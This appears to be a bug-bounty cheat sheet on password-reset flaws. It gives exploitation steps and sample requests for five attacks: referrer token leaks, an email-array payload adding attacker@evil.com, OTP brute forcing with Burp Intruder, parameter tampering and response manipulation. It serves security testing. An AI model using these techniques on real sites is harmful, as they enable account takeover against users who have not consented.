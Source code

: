 # Common security flaws in password reset functionality compiled from twitter, writeups, disclosed reports:

## 1. Password Reset Token Leak Via Referrer

- The HTTP referer is an optional HTTP header field that identifies the address of the webpage which is linked to the resource being requested.
The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed 

Exploitation:
```
    Request password reset to your email address
    Click on the password reset link
    Dont change password
    Click any 3rd party websites(eg: Facebook, twitter)
    Intercept the request in burpsuite proxy
    Check if the referer header is leaking password reset token.
``` 
  
## 2. Sending an array of email addresses instead of a single email address.

- In this attack the The attacker can send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address and It could lead to full account takeover.

```
POST https://example.com/api/v1/password_reset HTTP/1.1
Original Request Body:
{“email_address”:”xyz@gmail.com”}
Modified Request Body:
{“email_address”:[“admin@breadcrumb.com”,”attacker@evil.com”]}
```
- In this way, the password reset link get send to both victim as well as attacker. And the attacker can use it to gain Full account Takeover.

## 3. Bruteforcing OTP for Reseting Password.

- Now, In case The password reset functionality of application is based on OTP validation.
- Many program accepts No rate limit as acceptable risk. So, Bruteforcing OTP is worth trying.
- You can reset the password of an account by intercepting the request for OTP validation and bruteforcing the 6 digit number.
- Using this, it is possible to change and reset the password of any account, by changing the user data and brute-forcing the reset OTP.
  
Exploitation:
```
      1. Start the Burp Suite and Intercept the password reset request
      2.Send to intruder
      3.Use null payload
```

## 4. Full Account Takeover via Changing Email And Password of any User through API Parameters

Exploitation:
```
    1. Attacker have to login with their account and Go to the Change password function
    2. Start the Burp Suite and Intercept the request
    3. After intercepting the request sent it to repeater and modify parameters Email and Password
      POST /api/changepass
      [...]
      ("form": {"email":"victim@email.tld","password":"12345678"})
```      
      
      
## 5. Response manipulation: Replace Bad Response With Good One

- Look for Request and Response like these
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)
```
- Change Response
```
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
